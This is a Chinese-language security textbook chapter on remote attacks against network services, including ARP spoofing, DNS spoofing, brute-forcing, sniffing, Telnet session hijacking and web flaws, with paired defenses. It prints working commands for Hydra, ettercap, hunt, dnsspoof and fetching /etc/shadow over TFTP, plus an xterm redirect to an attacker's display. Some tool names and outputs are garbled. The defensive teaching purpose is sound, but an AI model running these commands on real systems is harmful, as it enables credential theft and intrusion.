为了执行 ARP 欺骗，主机 M 将向主机 G 和主机 V 发送 ARP 响应数据包。这些 ARP 响应数据包将导致主机 V 将主机 M 的 MAC 地址映射到主机 G 的 IP 地址上，并导致 G 将 M 的 MAC 地址映射到主机 V 的 IP 地址上。由于以太网数据包是根据 MAC 地址进行路由的，主机 M 将接收到所有在 G 和 V 之间传输的数据。现在，如果 M 通过将 MAC 地址替换为主机 G 或 V 的 MAC 地址并将这些数据包路由到正确的目的地，受害者主机 G 和 V 将完全不知道它们的连接正被主机 M 探测。可以使用 `Dsniff` 和 `Ettercap` 等工具执行 ARP 欺骗。

`Ettercap` 可以在 `http://ettcap.sourceforge.net/` 下载。`Dsniff` 可以在 `http://monkey.org/dugsong/dsniff` 获取。

## 常见的嗅探防御措施

网络嗅探工具使得恶意用户很容易捕获网络分段上的数据。强烈建议采取以下防御措施：

- 不要使用明文协议。
- 某些交换机允许管理员静态映射 MAC 地址。然而，这对于大型企业来说可能不可行。
- 许多入侵检测系统（IDS）可以检测并报告 ARP 欺骗。可以使用 `Ettercap` 帮助检测网络上的 ARP 响应。

## 中间人

此类攻击涉及恶意用户拦截并更改两个或多个受害者主机之间的数据。

例如，注意，由于他已成功破解了 `somecompanyasanexample.com` 的内部 DNS 服务器，该入侵者可能会更改 DNS 服务器配置，使所有针对 `intranet.somecompanyasanexample.com` 的 DNS 查询都指向入侵者的 IP 地址。这将导致用户在不知情的情况下连接到入侵者的主机，而不是 `intranet.somecompanyasanexample.com`。入侵者随后可以将受害者的连接代理到 `intranet.somecompanyasanexample.com` 的真实 IP 地址。在这种情况下，入侵者将成功发起了一次中间人攻击。

## 防止中间人攻击

使用 `SSH`、`IMAPS` 和 `HTTPS` 等安全协议。虽然这些协议可能受到中间人攻击的影响，但它们可能利用加密密钥和证书，从而让软件客户端警告终端用户可能发生的攻击。

## 配置错误

通常，服务的配置错误会导致向未经验身份的用户暴露不必要的信息。有时，配置错误可能会导致主机被完全攻陷。常见的配置错误及其防御措施列在下面的“远程服务漏洞”章节。

## 审计并加固主机配置

定期审计和加固主机配置策略是一个好主意。请参阅本书第二部分的章节，了解如何加固策略和服务的。

## 软件漏洞

软件漏洞是由设计缺陷引起的，例如不当的输入验证和边界检查。此类漏洞通常可以远程利用，允许攻击者在运行漏洞软件的主机上执行恶意代码。

缓冲区溢出是许多可远程利用条件的原因。当进程向内存中写入超过分配的缓冲区空间的数据时，就会发生这种情况。这会导致可执行栈空间被任意数据覆盖。攻击者可以利用这种条件通过提供自己的输入，可能导致进程用攻击者提供的可执行数据覆盖其栈。如需更多信息和细节，请参阅“Aleh One”的《Smashing the Stack for Fun and Profit》，该文档位于 `http://www.insecure.org/stf/smashstack.txt`。

# 62 第一部分：攻击技术与防御

许多在线安全资源发布针对各种漏洞的利用代码。请对此类利用程序保持谨慎，因为它们可能各异，并且已知包含恶意后门，可能导致执行利用程序的主机被攻陷。在虚拟机环境下测试未知的利用程序是一个好主意。最广泛使用的虚拟机软件由 `VMware` 提供。详情请参阅 `http://www.vmware.com/`。

## 针对软件漏洞利用的常见防御

有时，软件漏洞的远程利用会通过漏洞公告提供，或者发布补丁。此类利用程序通常被称为零日漏洞。防御针对未公布漏洞的利用是不可能的。但除了遵循这些建议外，每位系统管理员必须监控并对异常的系统活动采取行动：

- 保持软件补丁为最新。
- 订阅漏洞监控列表，例如 `Bugtraq`。（更多信息请访问 `http://securityfocus.com/cgi-bin/sfonline/subscribe.pl`。）参阅本书参考中心中的“在线资源”部分以获取许多其他安全资源的索引。
- 为了防止某些类型的缓冲区溢出，有几种解决方案：

  `StackGuard`: `http://www.immunix.org/stackguard.html`

  - `Libsafe`: `http://www.research.avalabs.com/project/libsafe/`
  - `StackGhost`: `http://stackghost.pierdas.stanford.edu/`
  - `Openwall`: `http://www.openwall.com/linux`

如果使用 Solaris，编辑 `/etc/system` 并添加以下行：

```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```

- 监控并响应 IDS 日志。

## 远程服务漏洞

以下是常用利用的服务列表。它是基于服务已知通常监听的标准端口号。

## 识别在非标准端口运行的服务

此处列出的任何服务都可以配置为在非标准端口上监听。可以使用 `Amap`（可在 `http://www.thehackers.com` 获取）等工具来识别非标准端口上的服务。


### 关闭不必要的服务

某些服务被配置为接受任何源的连接。例如，一个 `HTTP` 服务器允许所有用户查看组织的网站。在这种情况下，无法隐藏组织正在运行 `HTTP` 服务器的事实。

然而，根据组织的需求和网络架构，某些服务可能只期望授权 `IP` 地址的连接。在这种情况下，应建立防火墙规则阻止来自未经授权 `IP` 地址的连接。此外，必须通过防火墙关闭不必要的服务。

### FTP（文件传输协议）：21 (TCP)

`FTP` 是一种从一个主机到另一个主机传输文件的协议。

可以使用 `Hydra` 暴力破解 `FTP` 账户。

#### 暴力破解 FTP

以下是使用 `Hydra` 暴力破解账户的示例：

```
[bash]$ hydra -L usernames.txt -P passwords.txt
ftp.companyexample.com ftp
```

`Hydra` v2.0 (c) 2002) Hauser / THC - 仅允许合法用途。

`Hydra` 正在启动！[并行任务：4, 登录尝试：4 (1:2/p)]

[21][ftp] login: joe password: mypassword

`Hydra` 结束。

#### 防止 FTP 暴力破解

请参见“针对暴力破解的常见防御”。由于 `FTP` 是一种明文协议，可以捕获在网络上传输的用户名和密码。`Etter` 等工具有助于获取 `FTP` 数据。

#### 嗅探 FTP 身份验证

以下是使用 `Ettercap` 捕获网络上传输的 `FTP` 凭据的示例：

```
[bash]# ettercap -m -C -N
```

```
ettercap 0.6.7 (c) 2002 ALOr & NaGa

你的 IP: 10.0.0.102 MAC 地址: 01:11:04:6A:A3 接口: eth0

加载插件... 完成。

解析本地主机名...

* |==================================| 100.00 %

按 'h' 查看帮助...

嗅探 (基于 MAC): ANY --> ANY

TCP + UDP 数据包... (默认)

收集密码...
```

# 第 4 章：远程攻击

07:04:58 10.0.0.102:4814 --> 192.168.1.121 ftp

```
USER: smith
PASS: myp455w0rd
```

#### 使用安全协议

不要使用如 `FTP` 等类的明文协议。考虑使用 `HTTPS` 或 `SSH` 来执行安全文件传输。

`FTP` 配置错误：`FTP` 客户端和服务器容易受到远程利用漏洞的影响。接下来的章节将介绍针对此类配置错误常见的攻击方式。

#### 弹回攻击 (Bounce Attacks)

由于 `FTP` 协议的设计，当 `FTP` 客户端使用“主动”（active）模式请求数据传输时，`FTP` 服务器必须向向 `FTP` 客户端上的某个端口发起连接。`FTP` 客户端使用 `PORT` 命令，并将其 `IP` 地址和列表编号作为参数。如果 `FTP` 客户端发送带有另一个主机 `IP` 地址的 `PORT` 命令，`FTP` 服务器将尝试连接到该主机。因此，`FTP` 协议的这一特性可以用于代理扫描。你可以利用 `nmap` 的 `-b` 选项来执行此类扫描。

一旦发送了 `PORT` 命令，恶意客户端就可以执行 `RET` 命令，向 `FTP` 服务器发送包含命令的文件。这将导致 `FTP` 服务器将指定文件的内容转储到 `PORT` 命令所指定主机的特定端口。例如，该文件可能包含 `SMTP` 命令，从而允许恶意 `FTP` 客户端向 `FTP` 服务器代理发送电子邮件。

#### 预防弹回攻击的成功

请确保采取了以下预防措施以防止 `FTP` 弹回攻击：

- 配置你的 `FTP` 服务器，使其在下发 `PORT` 命令时，拒绝与除客户端以外的任何 `IP` 地址建立连接。大多数较新的 `FTP` 服务器默认都已开启了此功能。
- 指令你的防火墙不允许源端口为 20 的入站连接。但请注意，该规则可能会拦截合法连接。

### 第一部分：攻击技术与防御

#### 连接劫取

当 `FTP` 客户端在 `PORT` 命令后发送 `PASV`（被动）命令并带有其 `IP` 地址和端口号时，服务器开始在请求的端口监听连接。此时，恶意用户可以在客户端之前连接到服务器的端口。取决于 `FTP` 客户端随后发送的命令，恶意用户现在可能获得传输数据的访问。

如果不使用被动模式，则 `FTP` 会话将转用“主动”模式。在这种模式下，由客户端开始在指定端口监听。此时，攻击者可能会在 `FTP` 服务器之前连接到客户端。取决于客户端随后发送的命令，攻击者可能会伪装成合法服务器，并向客户端传输文件或数据。

#### 预防连接劫持攻击

以下建议将有助于防范连接劫持攻击：

- 配置你的 `FTP` 服务器，仅允许来自已验证客户端 `IP` 地址到其数据端口的连接。大多数 `FTP` 服务器默认都已开启了此功能。请注意，这可能无法防止攻击者和合法 `FTP` 用户处于同一个 `NAT` 网关背后的攻击，因为它们的源 `IP` 地址将是相同的。
- 配置你的 `FTP` 客户端，使其仅接受来自其当前已连接的 `FTP` 服务器的连接。

软件漏洞：`WU-FTPD` 是 Unix 和 Linux 上最常用的 `FTP` 守护进程。遗憾的是，它的历史一直受到漏洞的困扰，已知存在许多远程利用漏洞。以下是一些已知的 `WU-FTPD` 漏洞的列表：

字体 文件通配（File Globbing）堆溢损坏漏洞：`WU-FTPD` 的“文件通配”功能允许客户端按模式组织文件。发现某些模式会导致 `WU-FTPD` 进程中的堆损坏。该漏洞使得攻击者可以通过发送特殊构造的数据作为输入，在受漏洞的 `WU-FTPD` 服务器上执行任意命令。更多细节请参见 http://online.securityfocus.com/bid/3581

- `SITE EXEC` 漏洞：旧版本的 `WU-FTPD` 在其“`SITE EXEC`”功能中存在漏洞。该漏洞允许客户端逃脱其允许执行的受限命令集。例如，如果 `FTP` 客户端执行了以下命令：

```
SITE EXEC /bin/sh
```

将获得 root 权限。

- 路径溢出漏洞：`WU-FTPD` 在处理长路径名时存在缓冲区溢出漏洞。具体来说，这是由于 `strcpy()` 函数引起的。更多信息请参见 http://online.securityfocus.com/bid/2241
- 长路径溢出漏洞：`WU-FTPD` 存在缓冲区溢出漏洞，由于 `strcpy()` 函数在从一个内存位置复制字符串到另一个位置时未进行边界检查，可能导致缓冲区溢出。请参见 http://www.securityfocus.com/Products/Retina/63.html 详情。

考虑 `ProFTPD` 替代 `WU-FTPD`。`ProFTPD` 受到许多远程漏洞的影响。`ProFTPD` 可从 http://proftd.linux.org 获取。

### SSH (Secure Shell)：22

`SSH` 是一种用于交换数据的安全协议。它可以用于登录远程机器、执行命令和传输文件。由于 `SSH` 内通信是加密的，它是 `telnet`、`rlogin` 和 `FTP` 的可靠替代方案。

暴力破解 `SSH` 支持使用用户名和密码对进行身份验证。因此，可以对 `SSH` 进行暴力破解。

#### SSH 暴力破解

可以使用 `expect` 工具编写简单的暴力破解脚本来对 `SSH` 进行暴力破解。一个 `Expect` 示例可以在 http://www.securiteam.com/tools/5Q2K6E.html 获取。程序可以从 http://expect.gov 下载。

#### 防止 SSH 暴力破解

请参见“暴力破解攻击的常见防御”。

#### SSH 中间人攻击

`SSH` 容易受到同网段恶意用户的中间人攻击。

#### Sshmitm 和 Ettercap

`sshmitm` 和 `Ettercap` 等工具可以代理 `SSH` 连接，而像 `dnsspoof` 这样的工具可以伪造 `DNS` 查询响应，从而将受害者的 `SSH` 客户端重定向到代理服务器。然而，受害者的 `SSH` 客户端可能会警告用户主机密钥发生了变化，因为呈现的主机密钥是攻击者代理服务器的密钥。遗憾的是，大多数用户并不重视这一警告，导致攻击成功。

#### 防止针对 SSH 的中间人攻击

教育用户不要接受远程 `SSH` 服务器的未知主机密钥。如果可能，在内部资源上列出这些密钥的指纹，以便用户在接受 `SSH` 会话之前进行验证。

软件漏洞：已知多个版本的 `SSH` 软件存在漏洞。下记录了最近的一个。

`Open SSH` 挑战响应缓冲区溢出：发现多个 `OpenSSH` 实现由于其挑战响应机制受到缓冲区溢出攻击的影响。缓冲区溢出发生在编译为支持 `SKEY` 或 `BSD_AUTH` 认证的 `OpenSSH` 服务器上。

此外，在 `OpenSSH` 的挑战响应机制中发现了另一个漏洞。该漏洞是由 `OpenSSH` 对挑战响应认证期间收到的响应处理不当引起的。支持交互式键盘认证的 `PAM` 模块的系统受到此漏洞的影响。因此，开启以下选项的系统受到影响：

```
PAMAuthenticationViaKbdIntChallengeResponse
```

更多信息参见 http://online.securityfocus.com/bid/5093

### Telnet：23 (TCP)


Telnet 是一种用于登录远程机器的明文协议。

暴力破解：可以使用 `Hydra` 等许多可用工具对 `FTP` 账户进行暴力破解。

# Telnet 暴力破解

可以使用 `Hydra` 对 `telnet` 进行暴力破解：

```bash
hydra -L usernames.txt -P passwords.txt telnet
```

`Hydra` v2.2 (c) 2002 由 Hauser / THC 开发 - 仅允许用于合法目的。

`Hydra` 正在启动！ [并行任务: 4, 登录尝试: 9 (1:3/p3)] [23][telnet] login: jill password: i10v3jack

`Hydra` 运行结束。

# 防止 Telnet 暴力破解

请参阅“暴力破解攻击的常见防御”。

`TCP` 劫持：在 `telnet` 用户成功登录后，同一网段内的另一个用户可能可以使用 `Huntcap` 等 `TCP` 劫持工具劫持会话。

# 劫持 Telnet 会话

假设 IP 地址为 `192.168.1.1` 的主机上的恶意用户与 `192.168.1.2` 处于同一网段。如果 `192.168.1.2` 上的用户建立了到 `10.0.0.1` 的 `telnet` 连接，那么 `192.168.1.1` 上的恶意用户可以使用 `Huntcap` 劫持它：

```bash
[bash]# hunt -i eth0
/*
* hunt 1.5
* Linux 多功能连接 / 嗅探器
* (c) 1998-2000 由 kra
*/
starting hunt
--- 主菜单 --- rcvpkt 0, free/alloc 63/64 -------
l1/w/r list/watch/reset connections
u) host up tests
a) arp/simple hijack (如果使用 arp 则可避免 ack 风暴)
s) simple hijack
d) daemons rst/arp/sniffer/mac
o) options
x) exit
*> s
0) 192.168.1.2 [52323] --> 10.0.0.1 [23]
```

choose conn> 0

dump connection y/n [n] n

输入想要执行的命令字符串或 [cr]> whoami

whoami

jack

输入想要执行的命令字符串或 [cr>

在这种情况下，恶意用户在劫持受害者的 `telnet` 会话后运行了 `whoami` 命令。所示，命令执行成功，其输出显示了受害者的用户名“jack”。同样，恶意用户也可以发布如下命令：

```
xterm -display 192.168.1.1:0
```

这将导致受害者用户“jack”打开的 `xterm` 窗口返回给恶意用户。当然，恶意用户必须在自己的主机上运行如下的命令：

```
xhost +192.168.1.32
```

以便让在受害者主机上执行的 `xterm` 实例显示在自己的 X 服务器上。


# 使用 SSH

禁用 `telnet` 并改用 `SSH`（版本 2）等安全替代方案。

嗅探：由于 `telnet` 是明文传输协议，因此可以嗅探到在网络中传输的用户名和密码。许多工具都有助于捕获 `telnet` 数据和密码。

# 嗅探 Telnet 认证

可以使用 `ettercap` 嗅探 `telnet` 认证过程中在网络传输传输的用户和密码：

```bash
[bash]# ettercap -m -C -N
```

ettercap 0.6.7 (c) 2002 ALOR & NaGa

您的 IP: 10.0.0.102 MAC 地址: 01:11:04:03:6A:A3 接口: eth0

加载插件... 完成。

正在解析 1 个主机名...

* |==================================================| 100.0 %

按 'h' 获取帮助...

嗅探 (基于 MAC): ANY <--> ANY

TCP + UDP 数据包... (默认)

正在收集密码...

07:04:58 10.0.0.102:4814 --> 192.168.1.1:123 telnet

```
USER: john
PASS: i1ovetln
```


# 不要使用 Telnet

不要使用 `telnet` 这样的明文协议。考虑改用 `SSH`。

软件漏洞：`telnet` 守护进程涉及几个可以远程利用的漏洞。下一段描述了一个最容易利用的漏洞之一。

`TTYPROMPT` 缓冲区溢出漏洞：Solaris 2 自带的 `/bin/login` 版本存在一个涉及 `TTYPROMPT` 环境变量的漏洞。为了攻击此漏洞，攻击者需要将 `TTYPROMPT` 的值设置为六字符字符串，并在连接后在用户名后发送一个 64 字符的字符串。例如，考虑攻击者尝试通过以下用户登录来利用此漏洞：

```
telnet> TTYPROMPT abdef
telnet -o 192.168.1.10...
Connected to somecompanyexample.com.
Escape character is '^'.
```

SunOS 5.6

```
Last login: Dec 10 12:19:10 from 10.0.0.2 bin@somecompanyexample.com
```

# SMTP (简单邮件传输协议): 25 (TCP)

`SMTP` 是互联网上用于传输电子邮件消息的协议。

嗅探：由于 `SMTP` 是明文协议，因此可以捕获在网络中传输的数据。

# 嗅探 SMTP 流量

`mailcap` 程序是嗅探包中的一个工具，可捕获网络上的 `SMTP` 数据。当 `mailcap` 监控网络上的 `SMTP` 数据时，必须在与受害者同一网段的机器上运行。

```bash
[bash] mailcap
Kernel, raw packet mailcap: listening on eth0
From: mailcap
Date: Feb 4 15:24
To: someother.org
Subject: Re: Your email
Message-ID: Pine.4.4.0302041524510
MIME-Version: TEXT/PLAIN; charset=US-ASCII
```

Hello,

Thanks for your email. The password for your FTP account is 3dd!

Yes I know it is hard to remember, but its your own security.

Thanks,

Joe.

# 加密邮件

`GNU Privacy Guard` 工具集用于加密电子邮件。鼓励用户加密包含敏感信息的邮件。访问 http://www.gnupg.org/ 获取更多关于 `GNU Privacy Guard` 的信息。

软件漏洞：`Sendmail` 是互联网上最流行的 `MTA`（邮件传输代理）。`Sendmail` 已有很多许多受远程利用的漏洞。

- `Sendmail` 头部缓冲区溢出漏洞：此漏洞是由 `Sendmail` 头部解析组件中的缓冲区溢出引起的。具体来说，`Sendmail` 的 `crackaddr` 未能正确处理邮件头中“From”地址字段中的 `< >` 字符。更多细节请访问 http://www.cert.org/advisories/CA-2003-067.html 和 http://securityfocus.com/bid/6991。

- `Sendmail` MIME 漏洞：`Sendmail` 8.8.3 版本在对电子邮件进行 MIME 转换时由于边界检查不当引入了一个新漏洞。可以通过发送特制的邮件，导致 `Sendmail` 进程覆盖其内部栈空间，从而远程利用此漏洞。更多信息请见 http://online.securityfocus.com/bid/685。

- `Sendmail` HELO 缓冲区溢出：旧版本的 `Sendmail` 在接收长字符串作为其 `HELO` 命令的参数时会导致崩溃。可以远程利用此漏洞在 `Sendmail` 服务器上运行任意命令。更多信息可从 http://www.eyee.com/html/Products/Retina/RTHs/Mail_Servers/141.html 获取。

- `Sendmail` DNS Map TXT 记录缓冲区溢出：在 `Sendmail` 代码的 DNS 处理中发现了一个缓冲区溢出漏洞。该漏洞是由对名称服务器返回的数据边界检查不当引起的。该漏洞会导致缓冲区溢出，可以通过让恶意名称服务器返回任意长度的响应来利用此漏洞在 `Sendmail` 服务器上运行命令。更多信息可从 http://online.securityfocus.com/bid/5122 获取。

# DNS (域名系统): 53 (TCP 和 UDP)

`DNS` 是一种用于在域名和 IP 地址之间进行翻译的协议。


欺骗：与 TCP 不同，UDP 不是一种面向连接的协议。这使得伪造 UDP 流量变得容易。当 DNS 查询 DNS 服务器时，DNS 服务器通过发送一个源自端口 53 的 UDP 包来响应查询。然而，位于同一网络分段或通往 DNS 服务器路径上的恶意用户可以以 DNS 服务器的源 IP 地址向客户端发送响应。如果客户端在收到真实 DNS 服务器的响应之前收恶意响应，则恶意响应将被接受。由于恶意用户可以为客户端伪造欺骗的 DNS 响应，他可能会欺骗客户端连接到自己或其主机，而不是预期的目标。

### 伪造 DNS 响应

`dnsspoof` 程序分发于 Dsniff 中，是一个便于伪造 DNS 查询的工具。例如，假设攻击者已经控制了 IP 地址为 10.0.0.1 的网络网关。假设 `somecompanyexample.com` 的真实 IP 地址为 10.1.1.2。攻击者可以运行 `dnsspoof`，并使其对所有针对 `somecompanyexample.com` 的 DNS 查询响应为 192.168.1.1，他或她机器的 IP 地址。

```
[gateway]# dnsspoof -i eth0 -f /etc/dnsniff.txt
kernel filter, protocol ALL, raw packet socket
dnsspoof: listening on eth1 [udp dst port 53 and not src 10.0.0.1]
```

攻击者需要确保 `/etc/dnsniff.txt` 的内容包含以下：

`192.168.1.1 somecompanyexample.com`

现在，在尝试识别入侵者时，如果受害者对 `somecompanyexample.com` 执行 DNS 查询，他或她将被指向黑客机器的 IP 地址 192.168.1.1（而不是 10.1.1.2）：

```
[bash]$ host somecompanyexample.com
somecompanyexample.com has address 192.168.1.1
```

### DNSSEC

考虑 DNSSEC (DNS 安全)，它是 DNS 的扩展，可提供端到端的真实性。有关 DNSSEC 的更多信息，请访问 http://www.dnssec.net/。

# 软件漏洞

BIND (Berkeley Internet Name Domain) 是互联网上使用最广泛的 DNS 服务器。下一段记录了一个著名的 BIND 漏洞。

- BIND NXT 溢出和 DOS 漏洞：该漏洞是由于 BIND 在处理 NXT 记录的输入验证失败引起的。可以通过强制受影响的 DNS 服务器获取精心构造的 NXT 记录来远程利用此漏洞。其他 DOS（拒绝服务）漏洞也位于 http://online.securityfocus.com/bid/788 的 BIND 告告中发布。

考虑使用 `djbdns` 替代 BIND。`djbdns` 程序可以在 http://cr.yp.to/djbdns.html 获取。

# TFTP (简单文件传输协议): 69 (UDP)

TFTP 是一种基于 UDP 的协议，用于传输文件。它缺乏认证和目录列表等大多数功能。TFTP 只支持从远程服务器读取文件和写入文件。

嗅探：由于 TFTP 是一种明文协议，可以嗅探正在传输的数据。

## 嗅探 TFTP 数据

假设用户正在从远程主机 TFTP 传输 `/etc/passwd` 文件。与用户处于同一分段的恶意用户可以通过运行配置为显示 UDP 流量的 Ettercap 来嗅探受害的数据：

```
[shell]# aftercap -N -m -t udp

ettercap 0.6.7 (c) 2002 ALoR & NaGa

Your IP: 192.168.1.1 with MAC: 00:01:01:13:A4:B2 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |=======================| 100.00 %
```

Press 'h' for help...

Sniffing (MAC based): ANY --> ANY

UDP packets only...

## 76 第一部分：攻击技术与防御

```
22:49:55 192.168.1.1:33569 --> 10.0.0.1 proto: ./etc/passwd.
```

```
22:23:54 10.0.0.1:2563 --> 192.168.1.1:33569 proto: ...root:x:0:/bin/
bin:x:1:/
daemon:x:2:/sbin/
mad:x:3:/var/adm/
lp:x:4:/var/spool/lpd.
sync:x:5:/bin/
shutdown:x:6:/sbin/
halt:x:7:/sbin/
mail:x:8:/var/spool/
news:x:9:/var/spool/
nuucp:x:10:/var/spool/uucp.
operator:x:11:/root/
games:x:12:/usr/games/
gopher:x:13:/usr/lib/gopher-data/
ftp:x:14:/home/ftp/.
```

# 使用安全协议

不要使用明文 TFTP。考虑使用 HTTPS 或 SSH 进行安全传输。

# TFTP 配置错误

TFTP 服务器经常被错误配置为提供 (root) 目录。这种配置允许远程用户获取 `/etc/passwd`。

# 获取关键文件

如果远程 TFTP 服务器被错误配置为提供 (root) 目录，可以使用以下 TFTP 命令获取 `/etc/shadow`：

```
[bash]$ tftp 10.0.0.1 get /etc/shadow
```

# 设置 TFTP 根目录

大多数 TFTP 服务器默认提供 `/tftp` 目录下的文件。该目录可以使用 `-s` 选项进行设置。详情见 `tftpd`。

### HTTP (超文本传输协议): 80 (TCP)

HTTP 是一种用于分发 WWW 内容的无状态协议。无法手动检查所有配置错误。可以使用像 Nikto（可从 http://www.cirt.net/code/nikto.shtml 获取）这样的自动化工具检查配置错误。

# 暴力破解

可以使用 Hydra 等工具进行暴力破解。Hydra 是一种支持 HTTP 的暴力破解工具，用于破解保护资源。以下是使用 Hydra 暴力破解认证的示例：

```
hydra -L usernames.txt -P passwords.txt somecompanyexample.com
```

# 防止暴力攻击

嗅探：由于 HTTP 是明文协议，网络分段上的恶意用户可以监控另一个用户的 HTTP 流量。URL：`urlsnarp` 程序与 Dsniff 一起分发，可用于嗅探通过网络发送的 HTTP 请求：

```
# urlsnarp
Kernel filter, protocol ALL, raw packet socket
urlsnarp is listening on [tcp port 80 or 8080 or 3128]
GET http://www.mozilla.org/start/HTTP/1.1 - "Mozilla/5.0 (X11); Linux; i686; en-US; rv:1.3a) Gecko/20021212
10.0.0.1 - [Feb/2023:21:50:16-0800] GET http://c.cirt.net/HTTP/1.1 - "Mozilla/5.0 (X11); Linux; i686; en-US; rv:1.3a) Gecko/20021212
10.0.0.1 - [Feb/2023:21:50:42-0800] GET http://c.cirt.net/images/bg.gif HTTP/1.1 - "Mozilla/5.0 (X11); Linux; i686; en-US; rv:1.3a) Gecko/20021212
10.0.0.1 - [Feb/2023:21:50:42-0800] GET http://c.cirt.net/images/cirt_headline.gif HTTP/1.1 - "http://cirt.net/" "Mozilla/5.0 (X11; Linux; i686; en-US; rv:1.3a) Gecko/200201212
```

## 第 4 章：远程攻击 79

`vnd.sun.xml.impress.template`, `application/vnd.sun.xml.draw`, `application/vnd.stardust.draw`, `application/x-stardiv`, `application/vnd.sun.xml.draw.template`, `application/vnd.sun.xml.math`.


Accept: application/vnd.stardust.math, application/x-starmarth, audio/midi, image/*, video/*, application/pgp, application-pdf, application/postscript, message/partial, message/external-x-be2, application/android-inset, text/richt.

Accept: text/enriched, x-sun-attachment, application/file, postscript-file, default, main-file, sun-desket-message, application/x-metamail-patch, application/msword, audio/x-pn-reaudio, audio/vnd.rn-reaudio, application/smil, text/vnd-rn-reaudio.

Accept: application/x-shockwave-flash-2-preview, application/sdp, application/x-sdp, application/vnd.rn-realmedia, audio/wav, audio/waw, audio/x-pn-wav, audio/x-pn-windows-ac

```
22:15:33 10.0.0.1:37725 --> 192.168.1:80 proto: T
```

```
m, audio/basic, audio/x-pn-au, audio/aiff, audio/x-riff, audio/x-pn-ai.
Accept: text/xml, */*;q=0.01.
Accept-Encoding: gzip, compress.
Accept-Language: en.
User-Agent: Lynx/2.8.5.dev.7 libwww-FM/2.14 SSL-MM/1.4.1 OpenSSL/0.9.6b
```

```
22:15:33 192.168.1:80 --> 10.0.0.1:37725 proto: T
```

```
HTTP/1.1 200 OK.
Date: Thu, 20 Feb 2003 06:21:30 GMT.
Content-type: text/html.
Last-modified: Wed, 12 Feb 2003 13:13:05 GMT.
Content-length: 17831.
Accept-ranges: bytes.
Connection: close.
```

```
22:15:33 192.168.1:80 --> 10.0.0.1:37725 proto: T
```

```html
<HTML>
<HEAD>
<TITLE>欢迎访问 companyanyexample.com 网站！</TITLE>
</HEAD>
<BODY>
<h1>欢迎！</h1>
</BODY>
</html>
```

## 嗅探 HTTP 身份认证

受限制的 HTTP 位置需要身份验证。由于 HTTP 是明文传输，这些信息可以通过 Etercap 进行嗅获：

```bash
[bash]$ aftercap -m -C -N
```

ettercap 0.6.7 (c) 2002 ALoR & NaGa

你的 IP: 192.168.1.1 MAC 地址: 00:00:02:13:C1:13 接口: eth0

正在加载插件... 完成。

正在解析 1 个主机名...

* |===========================================================| 100.00 %

按 'h' 获取帮助...

正在嗅探（基于 MAC）：ANY <--> ANY

TCP + UDP 数据包...（默认）

正在收集密码...

```
23:54:24 192.168.1.1:36304 <--> 10.0.0.1:80 http
```

```
USER: root
PASS: myApach3B0X!@#
http://10.0.0.1/servlet/private/administration
```

## 使用 HTTPS

在提供关键和隐私数据时，请使用 HTTPS 代替 HTTP。

**HTTP 配置错误** 许多情况下，Web 服务器配置错误，或者带有默认配置部署到生产网络。以下段落描述了一些常见的被利用的配置错误。

### 自动索引

当开启自动索引时，如果不存在索引文件（如 `index.html`），Web 服务器将显示目录的内容。

通常，Web 内容作者会错误地将包含敏感信息的文件放置在 Web 根目录中，如果显示了目录内容，未身份认证的用户就可以轻松查看这些文件。

### 关闭索引

Apache 用户可以使用 `httpd.conf` 中的 `IndexIgnore` 指令来指示服务器关闭索引。

### 获取源代码、配置、统计数据和密码资源

许多 HTTP 服务器配置错误，导致关键文件泄露。以下是一些示例：

- CGI 的源代码可能包含数据库的用户名和密码。许多 Web 应用程序使用后缀为 `.inc` 或 `.conf` 的配置文件。此类文件可能包含系统和密码信息，并且经常被配置错误的 Web 服务器提供。

- Web 服务器统计程序将结果输出到 `/stats` 等目录中，这些目录通常放置在 Web 根目录下。

- Apache 允许用户使用 `.htaccess` 文件对目录进行密码保护。通常，攻击者可以下载 `.htpasswd` 文件并离线破解哈希值。

### 不要提供关键资源

Apache 用户可以使用 `httpd.conf` 中的 `<Files>` 指令来防止提供敏感文件。例如：

```apache
<Files ~ ".ht">
  Order allow,deny
  Deny from all
</Files>
```

### Web 漏洞

许多 Web 应用程序未能正确清理输入。这会导致各种漏洞，包括 SQL 注入、跨站脚本 (`XSS`) 和命令注入。开发者对所有来自用户的数据进行验证和清理是非常重要的。

### 防止输入验证

审计 Web 应用程序以确保对所有用户输入进行验证。需要注意的字符有 `\; \ @ & | % ~ < ]`

### 会话劫持

由于 HTTP 不是状态协议，会话管理由 Web 应用程序提供。在许多情况下，会话通过使用 Cookie 来维护。Cookie 是服务器请求存储在用户硬盘上的信息。

由于 Cookie 存储在用户的磁盘上，因此无法也不应该完全信任。例如，一个设计不良的应用程序在用户成功验证后可能会请求存储以下 Cookie：

```
lang=en-us; user=joe; time=10:10 EST;
```

如果 Web 应用程序仅依赖此 Cookie 值，任何用户都可以编辑其浏览器的 Cookie 文件（用户 目录下的 Mozilla cookies），并手动插入之前的 Cookie 值发送到 Web 服务器。此外，恶意用户还可以插入或通过其浏览器发送一个 user 字段设置为特权用户“administrator”的 Cookie。

Cookie 并不是维护会话的唯一方法。Web 应用程序可以通过将会话信息嵌入 URL 来维护状态：http://www.somecompanyasexample.com/authenticated.cgi?user=john&sessionid=12345678。

# 84 第一部分：攻击技术与防御

## 预防会话劫持

以下步骤将帮助防止许多类型的会话劫持技术：

- 为成功身份验证的用户分配随机的会话 ID。

- 考虑在 cookie 中存储加密信息，以便终端用户无法对其进行操纵。

- 使用 SSL 传输所有 cookie 信息。

## 隐藏的 HTML 元素

隐藏的 HTML 元素是 Web 表单中包含的静态值。这些值不会给终端用户。可以使用以下 HTML 代码设置隐藏元素：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN="5.25">
```

设计不当的 Web 应用程序信任隐藏 HTML 标签以便通过用户的会话传递信息。在这种情况下，恶意用户可能会下载 HTML 表单并将之前的 HTML 代码更改为：

```html
<INPUT NAME="shippingcharges" TYPE=HIDDEN="99">
```

在提交修改后的表单后，`shippingcharges` 字段的值将传递给脆弱的 Web 应用程序。如果 Web 应用程序盲目接受此值，且目标目标是一个电子商务网站，用户的信用卡上可能会产生一笔账单！

## 不要信任隐藏的 HTML 元素

Web 应用程序开发者不应信任隐藏 HTML 元素的值。进行 Web 应用程序审查以确保不受信任 HTML 元素的值是一个好主意。

## 源代码注释


在 Web 应用程序的开发阶段，程序员在 CGI 或 HTML 源代码中放置注释是很常见的。这些注释帮助开发者与同事之间共享细节。源代码注释可能包含关键信息，例如数据库服务器的密码。有时，当 Web 应用程序投入生产时，这些注释会被忽略：

```html
